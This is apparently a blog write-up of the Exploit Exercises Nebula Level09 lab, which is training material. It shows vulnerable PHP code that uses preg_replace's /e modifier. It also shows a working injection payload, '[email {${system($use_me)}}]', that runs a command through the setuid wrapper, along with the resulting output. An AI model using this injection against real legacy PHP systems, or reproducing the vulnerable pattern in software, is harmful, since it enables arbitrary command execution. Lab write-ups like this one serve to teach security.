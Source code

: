 ```yaml
---
title: "Exploit Exercises Nebula Level09"
date: "2016-02-15"
slug: "exploit-exercises-nebula-level09"
Categories:
- Exploit Exercises
---
```


[Level09] provides us with a C setuid wrapper for some vulnerable PHP code.

        <?php

        function spam($email)
        {
          $email = preg_replace("/\./", " dot ", $email);
          $email = preg_replace("/@/", " AT ", $email);

          return $email;
        }

        function markup($filename, $use_me)
        {
          $contents = file_get_contents($filename);

          $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
          $contents = preg_replace("/\[/", "<", $contents);
          $contents = preg_replace("/\]/", ">", $contents);

          return $contents;
        }

        $output = markup($argv[1], $argv[2]);

        print $output;

        ?>

As you can see in the code above, the second argument -- $use_me -- is not used in the code.

After doing some research, multiple sources identified preg_replace() as a dangerous feature that was deprecated in PHP 5.5.0 and removed as of PHP 7.0.0.

<!--more-->

This [link] provided useful information on the feature and even provided an example for exploitation.

Let's inject our getflag command into the $use_me argument using the exploitation method from the link:

        level09@nebula:/home/flag09$ echo '[email {${system($use_me)}}]' > /tmp/useme
        level09@nebula:~$ cd /home/flag09/
        level09@nebula:/home/flag09$ ./flag09 /tmp/useme getflag
        You have successfully executed getflag on a target account
        PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1

Looks like the injection was successful - we receive the output that indicates getflag was successfully executed.

[Mike][]

[Level09]: https://exploit-exercises.com/nebula/level09/ "Level09"
[link]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php "link"
[Mike]: /contact "Contact Mike"

